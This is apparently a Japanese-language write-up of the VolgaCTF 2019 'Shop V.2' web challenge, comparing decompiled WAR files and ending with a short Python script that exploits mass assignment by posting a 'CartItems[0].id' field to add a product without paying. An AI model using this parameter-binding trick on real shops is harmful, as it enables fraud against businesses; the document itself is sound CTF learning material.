

# VolgaCTF 2019 "Shop V.2" writeup

## 問題



## 解法

これはいろいろ試したのだがShopを勘違いしていた僕にとって難しすぎた。

Shopと同様にwarファイルはダウンロードできた。
差分はShopContrller.javatとかごく一部。
単純に買えなくなったというだけの変更に見える。

```bash-statement
69c69
< ./WEB-INF/classes/application.properties 165
---
> ./WEB-INF/classes/application.properties 358
71c71
< ./WEB-INF/classes/data.sql 329
---
> ./WEB-INF/classes/data.sql 247
77c77
< ./WEB-INF/classes/ru/volgactf/shop/controllers/ShopController.class 7402
---
> ./WEB-INF/classes/ru/volgactf/shop/controllers/ShopController.class 6911
```

```WEB-INF/classes/application.properties``` を見るとデータベース関連のやつが追加されているので外部から接続できたりするのか？と思いJDBCやらでいろいろ接続しようとしたけどそもそもポートが空いてない。

```
spring.mvc.view.prefix=/WEB-INF/templates/
spring.mvc.view.suffix=.jsp
spring.datasource.driver-class-name=org.h2.Driver
spring.datasource.initialization-mode=always
server.address=127.0.0.1
spring.jpa.properties.hibernate.temp.use_jdbc_metadata_defaults=false
spring.jpa.hibernate.ddl-auto=create
spring.jpa.database-platform=org.hibernate.dialect.H2Dialect
```

ShopController.javaはbuyができなくなるという修正が加えられているだけ。

```text
99,112c99

<         final Product product = this.productDao.geProduct(productId);

<         if (product != null) {

<             if (product.getPrice() <= user.getBalance()) {

<                 user.setBalance(Integer.valueOf(user.getBalance() - product.getPrice()));

<                 user.getCartItems().add(product);

<                 this.userDao.update(user);

<                 redir.addFlashAttribute("message", (Object)"Successful purchase");

<                 return "redirect:profile";

<             }

<             redir.addFlashAttribute("message", (Object)"Not enough money");

<         }

<         else {

<             redir.addFlashAttribute("message", (Object)"Product not found");

<         }

---

>         redir.addFlashAttribute("message", (Object)"Too easy");
```


結局他の人のwriteupを見ないと分からなかった。
ポイントは以下のの2点。
- POSTで変数を書き換える
- CartItemsの配列を追加する

writeupを参考にPythonのrequestsを使って書いていたのだけど、どうもうまく動かず。
結局Cookieを使ってセッション管理するときはrequests.Sessionを使った方が良いということが分かった。

```python
import requests

login_url = "http://shop2.q.2019.volgactf.ru/loginProcess"
target_url = "http://shop2.q.2019.volgactf.ru/profile"

payload0 = {'name': 'wani', 'pass': 'xxxxxxxx'}
payload1 = {'name': 'wani', 'CartItems[0].id': 4}

s = requests.Session()
r = s.post(login_url, data=payload0)
r = s.post(target_url, data=payload1)
print(r.text)
```

## 参考

- [VolgaCTF 2019 Qualifier - CTF](https://tuanlinh.gitbook.io/ctf/volgactf-2019-qualifier#web-shop-2)
